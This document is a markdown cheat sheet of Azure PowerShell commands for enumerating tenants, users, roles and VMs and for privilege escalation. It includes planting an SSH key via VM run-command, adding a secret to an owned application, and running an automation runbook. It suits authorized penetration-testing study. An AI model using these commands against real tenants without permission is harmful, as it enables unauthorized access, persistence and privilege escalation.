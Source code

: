 ## Azure PowerShell Cheatsheet

### Basic Commands
- **Authenticate an account**
```powershell
Connect-AzAccount
```
- **List authenticated accounts**
```powershell
Get-AzContext -ListAvailable
```
- **Set an account as default**
```powershell
Set-AzContext -SubscriptionId <SUBSCRIPTION_ID>
```
- **Remove a default account**
```powershell
Disconnect-AzAccount
```
- **Authenticate an Azure AD account**
```powershell
Connect-AzureAD
```
- **Get current Azure AD account**
```powershell
$res = Get-AzureADCurrentSessionInfo
$res
```
- **Authenticate via Microsoft Graph**
```powershell
Connect-MgGraph
```
- **Authenticate with service principal (App ID & Secret)**
```powershell
$SecurePassword = ConvertTo-SecureString -String "<AppSecret>" -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential("<AppId>", $SecurePassword)
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -Credential $Credential
```
- **Authenticate with service principal (App ID & Cert)**
```powershell
Connect-AzureAD -ApplicationId <AppId> -TenantId <TenantId> -CertificateThumbprint <Thumbprint>
```
- **Authenticate using access token**
```powershell
Connect-AzAccount -AccessToken <Token> -AccountId <AccountId>
```
- **Authenticate Azure AD using access token**
```powershell
Connect-AzureAD -AadAccessToken <Token> -TenantId <TenantId>
```

### General Enumeration
- **Enumerate tenant info**
```powershell
Invoke-WebRequest -Uri "https://login.windows.net/<domain>/.well-known/openid-configuration"
```
- **Check if Azure AD is used**
```powershell
Invoke-WebRequest -Uri "https://login.microsoftonline.com/getuserrealm.srf?login=<email>&xml=1"
```
- **Get Azure AD domains**
```powershell
Get-AzureADDomain
```
- **List Azure AD directory roles**
```powershell
Get-AzureADDirectoryRole
```
- **List users with a directory role**
```powershell
Get-AzureADDirectoryRoleMember -ObjectId <RoleId>
```
- **List all users**
```powershell
Get-AzureADUser
```
- **List all groups**
```powershell
Get-AzureADGroup
```
- **Get group owner**
```powershell
Get-AzureADGroupOwner -ObjectId <GroupId>
```
- **List applications**
```powershell
Get-MgApplication
```
- **Get application owner**
```powershell
Get-MgApplicationOwner -ApplicationId <AppId>
```
- **Get application permissions**
```powershell
$app = Get-MgApplication -ApplicationId <AppId>
$app.RequiredResourceAccess
```
- **Check Graph API role assignments**
```powershell
$res = Get-MgServicePrincipal -Filter "DisplayName eq 'Microsoft Graph'"
$res.AppRoles | Where-Object {$_.Id -eq '<RoleId>'}
```
- **Get service principal role assignments**
```powershell
Get-AzRoleAssignment -ObjectId <ObjectId>
```
- **Get role definition**
```powershell
Get-AzRoleDefinition -Name <RoleName>
```
- **List resources**
```powershell
Get-AzResource
```
- **List automation accounts**
```powershell
Get-AzAutomationAccount
```

### MicroBurst Enumeration
```powershell
Import-Module ./MicroBurst.psm1
Invoke-EnumerateAzureBlobs -Base "KEYWORD" -Verbose
Invoke-EnumerateAzureSubDomains -Base "KEYWORD" -Verbose
```

### VM Enumeration
- **List VMs**
```powershell
Get-AzVM | ConvertTo-Json
```
- **Run command on VM**
```powershell
Invoke-AzVMRunCommand -VMName <VMName> -ResourceGroupName <RGName> -CommandId RunShellScript -ScriptString "whoami"
```
- **Generate SSH key and add to VM**
```powershell
ssh-keygen
Invoke-AzVMRunCommand -VMName <VMName> -ResourceGroupName <RGName> -CommandId RunShellScript -ScriptString "echo 'ssh-rsa <Key>' >> /home/<User>/.ssh/authorized_keys"
```
- **Get VM network config**
```powershell
$vm = Get-AzVM -Name <VMName> -ResourceGroupName <RGName>
$vm.NetworkProfile
Get-AzPublicIpAddress -Name <PublicIPName>
Get-AzNetworkSecurityGroup -Name <NSGName>
```

### Privilege Escalation
- **Escalation via App Ownership**
```powershell
Add-MgApplicationPassword -ApplicationId <AppId>
```
- **Escalation via Automation Runbook**
```powershell
Import-AzAutomationRunbook -AutomationAccountName <Account> -ResourceGroupName <RGName> -Path ./Path/To/Script.ps1 -Name <RunbookName> -Published -Type PowerShell
Start-AzAutomationRunbook -AutomationAccountName <Account> -Name <RunbookName> -ResourceGroupName <RGName>
```

### Useful Tools
- MicroBurst: https://github.com/NetSPI/MicroBurst
- AADInternals: https://aadinternals.com/osint/
- Azure Storage Explorer
